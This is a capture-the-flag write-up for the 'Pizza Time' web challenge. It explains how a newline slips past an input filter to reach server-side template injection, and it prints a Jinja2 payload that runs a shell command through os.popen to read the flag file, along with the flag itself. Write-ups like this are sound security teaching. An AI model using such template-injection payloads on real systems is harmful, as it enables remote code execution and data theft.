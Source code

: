 # Pizza Time
> It's pizza time!! 🍕

## About the Challenge
We were given a website without the source code, and there is only one functionality on this website (we can place an order) and our input is reflected in the output.

![preview](preview.png)

![preview2](preview2.png)

## How to Solve?
Im assuming this website is vulnerable to SSTI. At first I can't input any special characters such as `$`, `[`, `]`, etc. But when I tried to use newline character or `\n`, suddenly the website didn't filter my input again.

Normal Input:
![normal](images/normal.png)

Bypass:
![bypass](images/bypass.png)

And to obtain the flag, we need to escalate the SSTI to remote code execution. This is the final payload I used to read the flag

```
{{lipsum.__globals__.os.popen('cat$IFS/flag.txt').read()}}
```

![flag](images/flag.png)

```
INTIGRITI{d1d_50m3b0dy_54y_p1zz4_71m3}
```